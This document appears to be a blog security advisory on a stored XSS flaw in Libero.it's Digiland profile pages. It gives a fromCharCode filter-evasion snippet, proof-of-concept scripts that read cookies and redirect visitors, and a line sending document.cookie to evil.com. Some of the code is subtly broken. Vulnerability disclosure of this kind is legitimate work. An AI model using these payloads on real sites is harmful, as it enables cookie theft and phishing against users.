 ```yaml
--- 
layout: post
title: "Advisory: Libero.it XSS Vulnerability"
meta: 
  _oembed_e8ca828b69f69de0e22e7e271ad7dc26: "{{unknown}}"
  _wp_page_template: default
  _oembed_3d718b72c63aacfdf79d1fb38e6253f1: "{{unknown}}"
  _oembed_631062b4a4548c51f235907d114d6fd4: "{{unknown}}"
  _oembed_116a79a942c74cddb055bd8503a08054: "{{unknown}}"
  autometa: nick nick digiland script fromcharcode arbitrary vulnerability profile
  _oembed_40a3ac3cf2f3c38b4c5f3ef6a652909c: "{{unknown}}"
tags: 
- about-me
---
```

After the report of Rosario Valotta on this ML, another XSS vulnerability
has been found on Libero.it, one of the most important italian ISP
(www.libero.it).
Nothing more than a trivial error but, since Libero.it staff used the
printed media to inform that it was only a "spot" issue, it is
important to demonstrate that this kind of errors are quite more
widespread and to let the Libero staff and management realize that a
potential attack
must be avoid by a deep check of the portal.
The vulnerability once again can be found in the "Community" section
of Libero portal, and the affected functionality is the profile
creation and retrival
<http://digiland.libero.it/profilo.phtml?nick=XssForFun&top=1>.
The implementation of this functionality allows the injection of
malicious code in the profile, so that an attacker by visiting his/her
profile can:
1) steal username
2) steal cookies
3) arbitrary redirection for Phishing pourpose
The normal URL would be something linke this:
<pre>
http://digiland.libero.it/profilo.phtml?nick=Nick&top=1
</pre>
where "Nick" is the name of the nick whose profile has been
manipulated to add arbitrary code.
This vulnerability resemble to those in MySpace and other communities.
So it's nothing really complicated and you can skip on from here ;)
In admin pages (need to be logged by creating a fake account) on page
<pre>
http://digiland.libero.it/profilo_add.php?nocache=1175076655
</pre>
there are two different fields named "I miei difetti:" (my defects)
and "i miei pregi:" (my strong points) that accept arbitrary content.
As stated by Rosario, the Libero.it web application performs a simple
parsing of the posted content, so that quote and double-quote (' and ")
chars are escaped by putting a \ before of them (both using ASCII and URL
encoding).
While I already had the Rosario's beautiful implementation of a simple
evasion technique I preferred to encode the single char in an old
snippet of mine.
The aim of the snippet (I don't remember if I made it, stole it, stole
only the main idea or where, sorry)  is to transform a string into a
series of char numbers to be used with a String.fromCharCode command.
Due to the limitation in size, the function which create the
String.fromCharCode sequence is a detached and ascii value is
decreased of 100 to limit the number of digits.
This is the creation snippet:
<pre>
 &lt;script>
 var toBenc = "hettp://www.lastknight.com";
 var result = "";
  for (var k = 0; k < carlo.length; k++)
 {
         result += ("e(" + (toBenc .charCodeAt(k) - 100) + ")+");
 }
 document.write(result + "<br>")
 &lt;/script>
</pre>  
 So URL "http://www.lastknight.com" is rendered as:
 <pre>
e(4)+e(16)+e(16)+e(12)+e(-42)+e(-53)+e(-53)+e(19)+e(19)+
e(19)+e(-54)+e(8)+e(-3)+e(15)+e(16)+e(7)+e(10)+e(5)+e(3)+
e(4)+e(16)+e(-54)+e(-1)+e(11)+e(9);
</code>
Using the tho box we can use the following code for a POC:
<pre>
[BOX 1]
 &lt;script>
 function e(A) {
  return String.fromCharCode(A + 100)
 }
 alert(document.cookie);
  &lt;/script>
 [BOX 2]
 &lt;script>
 var k =
 e(4)+e(16)+e(16)+e(12)+e(-42)+e(-53)+e(-53)+e(19)+e(19)+e(19)+e(-54)+e(8);
 k +=
 e(-3)+e(15)+e(16)+e(7)+e(10)+e(5)+e(3)+e(4)+e(16)+e(-54)+e(-1)+e(11)+e(9);
 alert(k);
 window.location = k;
  &lt;/script>
</pre>
  
The posting url can be easily modified to an http grabber such as:  
<pre>
http://evil.com/grab?c="+encodeURI(document.cookie);
</pre>
or (much more dangerous) to a phishing site.  
  
Session Riding and derived problems have not been tested.  
  
A POC url is available (until not deleted) here:
[http://digiland.libero.it/profilo.phtml?nick=XssForFun&top=1]  
  
Just my 2 cents and thanks to:    
  
**M1Sec**: for hints and Support  
**Rosario Valotta**:  for the first report, upon which this is based  
**SharDick**:  for help in JS ;)  
**Vokda**:  for consultancy and typo-killing ;)  
 
